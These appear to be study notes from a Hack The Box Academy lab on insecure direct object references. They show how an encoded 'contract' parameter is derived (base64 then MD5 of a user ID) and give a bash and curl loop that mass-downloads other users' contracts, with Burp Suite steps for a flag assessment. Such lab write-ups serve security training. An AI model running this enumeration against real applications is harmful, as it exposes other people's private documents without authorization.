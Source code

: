 # Bypassing Encoded References

This example will be similar to before but encoded.

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_contracts.jpg" alt=""><figcaption><p>http://SERVER_IP:PORT/contracts.php</p></figcaption></figure>

![download\_contract](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_idor\_download\_contract.jpg)

```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

this appears to be hased in `md5` format.

Since hash can't be decoded, we can try to has various values like uid, username, filename, etc. and look for any match.

For this example the UID's hash matched it

```shell-session
echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b -
```

### Function Disclosure

Some developers make mistake by performing critical functions on the front-end which exposes the the functions to attackers.

For example, if the above case (hashing the value) was done in the front-end, we could easily find the function and learn what it does step by step.

```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

In the above code, the function downloadContract

* converts the UID to base64 string
* hash it using md5
* and send it using POST method

we could replicate the function in our bash command

```shell-session
echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```

### Mass Enumeration

once we know what algorithm is used each step to get the hashed value we can write a simple script to perform the encoding and hasing for multiple values

```bash
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```

> tr -d removes the - at the end of each hashed value

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

Then using the above script to enumerate each hashed value

### Assessment

Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly.

<figure><img src="../../../.gitbook/assets/image (89).png" alt=""><figcaption><p>Burp Suite decode URL > Base64 = value</p></figcaption></figure>

to encode the value we have to perfrom in reverse

`value > Base64 > URL encode`

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption><p>Use burp to generate 1-20 number then encode them using payload processing</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption><p>Look for most different request then check response</p></figcaption></figure>
